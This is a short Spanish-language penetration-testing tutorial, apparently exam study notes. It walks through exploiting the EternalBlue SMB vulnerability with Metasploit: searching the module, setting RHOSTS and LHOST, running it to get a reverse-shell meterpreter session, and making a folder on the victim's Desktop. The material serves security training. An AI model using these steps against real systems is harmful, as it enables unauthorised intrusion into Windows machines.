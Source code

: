 
---
- TAG: #Introducción #Metasploit #EternalBlue #Windows 
----
# Explotación de Vulnerabilidades

En este apartado, vamos a enseñar un poco sobre la **Explotación de vulnerabilidades**, ingresando a una máquina utilizando alguna vulnerabilidad visible.

## Abrir Metasploit

Primero, debemos abrir nuestra aplicación de Metasploit de manera manual desde las aplicaciones de Kali Linux para que se ejecute correctamente.

Desde consola se abre con :

```bash
msfconsole
```


## Buscar la Vulnerabilidad

Una vez abierta, podemos buscar la vulnerabilidad con el comando:

```bash
search CVE-2017-0143
```

O simplemente ingresando el nombre de la vulnerabilidad:

```bash
search eternalblue
```


Obtendremos la misma respuesta con varias opciones, y será cuestión de probar hasta que una de ellas funcione.

## Seleccionar el Exploit

Para utilizar el exploit que necesitemos, lo seleccionamos con la palabra `use` seguido del número del exploit:

```msf6
msf6 > use 0
```


## Ver las Opciones de Configuración

Una vez seleccionado, es muy importante ver sus opciones de configuración con:

```bash
show options
```


Debemos tener claro que dentro del exploit existe el payload, que contiene la carga útil que se ejecutará automáticamente al ingresar a la máquina, otorgándonos una reverse shell como atacantes.

## Configurar la Dirección IP

En la parte de la dirección IP, notaremos que es obligatorio asignarla. Para ello, debemos usar el siguiente comando:

```bash
set RHOSTS 1.2.3.4
```


Luego de asignar la dirección de nuestra máquina víctima, podemos verificarlo nuevamente haciendo un `show options`.

## Asignar el Puerto

También es necesario asignar el puerto, pero generalmente este exploit se ejecuta por el puerto `445`.

## Configurar el Payload

Debemos asegurarnos de que en el payload nuestro **LHOST** tenga asignada nuestra dirección IP, ya que es crucial para conseguir la reverse shell.

Si en el examen no les aparece, pueden asignarlo con la función `set LHOST`.

## Ejecutar el Exploit

Para ponerlo en marcha, simplemente debemos hacer un `run` o `exploit`.

```msfconsole
run
```


Si todo va bien, deberíamos estar dentro de la máquina y nos aparecerá un **meterpreter** por consola. Es importante saber lo básico en comandos de Windows como: `pwd`, `dir`, `mkdir`, `cd`, etc.

Regresamos con `cd ..` hasta la parte donde podemos ver los Usuarios y poder ingresar a la carpeta **Desktop** y crear un archivo para confirmar que estamos dentro de la máquina:

```metasploit
meterpreter > mkdir Hacked!
```


Y listo, chicos. De esta manera se explotaría una vulnerabilidad de manera simple y sencilla.

## Recomendaciones

Lo único que cambiará son los parámetros que vayamos a utilizar. Recomiendo mucho aprender un poco de `cmd` y comandos de `metasploit`.

